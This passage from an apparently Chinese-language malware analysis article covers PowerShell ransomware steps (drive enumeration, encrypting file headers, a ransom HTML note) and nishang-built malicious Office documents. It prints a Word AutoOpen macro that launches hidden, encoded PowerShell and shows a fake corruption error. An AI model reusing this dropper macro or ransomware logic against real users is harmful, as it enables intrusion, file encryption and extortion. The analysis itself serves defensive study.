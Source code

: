 ![p3](http://drops.javaweb.org/uploads/images/c56069f62b56c23fa0280a5135c1ab8051ac5f90.jpg)

2.用随机数生成加密容器

![p4](http://drops.javaweb.org/uploads/images/7f3b5c58593211ddeb988c8e6a0430852cace41f.jpg)

![p5](http://drops.javaweb.org/uploads/images/7dac2f8477f8bd02efbdebac6ba8d936ca5527a7.jpg)

3.得到磁盘中的所有的指定后缀的文件

调用`Get-PSDrive`，得到所有文件名

```
$folder= gdr|where {$_.Free}|Sort-Object -Descending 

```

![p6](http://drops.javaweb.org/uploads/images/596ac08027aabe271b198c09fd45e54e9251eb05.jpg)

4.加密这些文件的前2048个字节后写回文件

![p7](http://drops.javaweb.org/uploads/images/7c5625ae4cb14a86200479a5084f13ded2d11c65.jpg)

5.解码Base64得到提示勒索的html文件

![p8](http://drops.javaweb.org/uploads/images/7e3ed44fd5bf08f5f3df58fc136d41888d18f50d.jpg)

在html文件的尾部添加上赎回密钥用的UUID及当前时间

![p9](http://drops.javaweb.org/uploads/images/db233f42946dcb07a7433cbbd32374d9b9ad4a7d.jpg)

### 渗透测试

此类样本大多使用网络上的nishang开源工具包生成的攻击文件。攻击文件以Word、Excel、CHM、LNK等格式的文件为载体，嵌入Payload，实现获得反弹Shell等功能，实现对系统的控制。

样本MD5：929d104ae3f02129bbf9fa3c5cb8f7a1

文件打开后，会显示文件损坏，用来迷惑用户，Word中的宏却悄然运行了。

![p10](http://drops.javaweb.org/uploads/images/51f95a42b5a4d794eb51d2fc1e8b054f6b712033.jpg)

宏的内容为：

```
Sub AutoOpen()
Dim x
x = "powershell -window hidden -enc JAAxACA[……]APQA” _
& "wB3AGUAcgBzAGgAZQBsAGwAIAAkADIAIAAkAGUAIgA7AH0A"
Shell ("POWERSHELL.EXE " & x)
Dim title As String
title = "Critical Microsoft Office Error"
Dim msg As String
Dim intResponse As Integer
msg = "This document appears to be corrupt or missing critical rows in order to restore. Please restore this file from a backup."
intResponse = MsgBox(msg, 16, title)
Application.Quit
End Sub

```
